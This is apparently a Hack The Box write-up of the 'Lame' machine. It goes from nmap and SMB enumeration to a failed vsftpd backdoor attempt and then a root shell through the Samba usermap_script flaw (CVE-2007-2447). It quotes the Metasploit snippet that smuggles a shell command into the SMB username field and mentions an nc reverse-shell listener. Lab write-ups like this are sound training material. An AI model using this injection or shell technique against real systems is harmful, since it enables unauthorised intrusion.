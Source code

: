 ```yaml
---
layout: /src/layouts/PostLayout.astro
title: Lame
tags: []
---
```

**Start 22:16 27/07** 

---

### Nmap recon
First of all we start with an `nmap` scan `nmap -sC -sV -Pn 10.10.10.3

![](../../../assets/7e26b6e16803fe97e118cefbbe9f71a6.png)

Here we see a few open `ports` namely `21 / 22 / 139 / 445`.

### 21/TCP - FTP 

==Anonymous login==
Since `21 - ftp` allows `Anonymous login` we should try that first. After trying `ftp 10.10.10.3` I found the directory to be empty.

==Exploits==
After looking up `vsftpd 2.3.4` using `searchsploit` we found some backdoor command execution exploits.

![](../../../assets/52668cd18039b35ae664ec6dca5e9d45.png)

### 445/TCP - Samba

==smbmap==
Using `smbmap -H 10.10.10.3` we can enumerate the SMB server.

![](../../../assets/43f81db1f5d26d159af0ee375eeb747e.png)

Since anonymous login is allowed we can connect to the `SMB` server using the following command: `smbclient -N //10.10.10.3/tmp` 
Afterwards we run `ls` to list all the files in the current directory. We get the following:

![](../../../assets/39eda28281cbf36a821db9b73eee317d.png)

None of these files seem interesting to us.

==Searchsploit==
After looking up the version on `searchsploit` the following exploits pop up:

![](../../../assets/76226021c0da9822f03e1d4ba648143b.png)

From all these this one seems the most prevalent for us:

```bash
Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit)
```

This exploit is also known as `CVE 2007-2447` as found on `ExploitDB`.  Perhaps this will come of use to us later on.

First let's try out the exploit we found for `port 21`.

### VSFTPD Exploit

To use this exploit we'll use `msfconsole` and use the path previously found using `searchsploit`.
Using `search vsftpd` we found the path to the exploit which we can then `use`.

![](../../../assets/dec5f39c476c29f33e714a0ba2247376.png)

![](../../../assets/e940b4015bdc12115a7f2220b1615115.png)

As always we type in `options` to find out what required settings we have to set up before firing up the exploit.

![](../../../assets/461d58a3388d95b6cc2bb644f69395b6.png)

We notice that we need to specify `rhosts` which would be `10.10.10.3` in this case, thus we just specify it using `set rhosts 10.10.10.3`.

Since the payload has already been configured by default we can just `run` the exploit after configuring the `rhosts`.

Unfortunately enough, the exploit completes but no session get's created. 

![](../../../assets/be7fe461cdbb6cbf679a710aaeb069b2.png)

This means that we'll have to try the `Samba` exploit we found earlier.

### Samba Exploit

For this we will have to utilize the [CVE 2007-2447](https://www.exploit-db.com/exploits/16320) as found previously in our `searchsploit`.
Reading through this `CVE` we find the following part which is interesting for us:

```rb
def exploit

		connect

		# lol?
		username = "/=`nohup " + payload.encoded + "`"
		begin
			simple.client.negotiate(false)
			simple.client.session_setup_ntlmv1(username, rand_text(16),
			datastore['SMBDomain'], false)
		rescue ::Timeout::Error, XCEPT::LoginError
			# nothing, it either worked or it didn't ;)
		end

		handler
	end
```

In this part of the `CVE` we see that we need to use the defined `username` credentials to log in.
In order for this to work we need to start a `nc -lvnp 443` listener. 
When prompted for a password I just pressed `enter` and the connection succeeded.

![](../../../assets/d1b253c54919172fe658b7ed575d61c6.png)

![](../../../assets/e4237545d9ca8b0814e99a4e9887cf1a.png)

We got a `root` shell this way, thus no need to escalate privileges :)

### Flags

As always we use `find` to quickly find the flags

![](../../../assets/2f38fcef5784108d5b3f9e5bc4ff3eda.png)

![](../../../assets/719208df0f5ffeb8e5f82fa6821654f4.png)

![](../../../assets/619407244de02a4f565bd6cfdca6995e.png)

---

**Finished 23:32 27/07**


[^Links]: [[Hack The Box]]
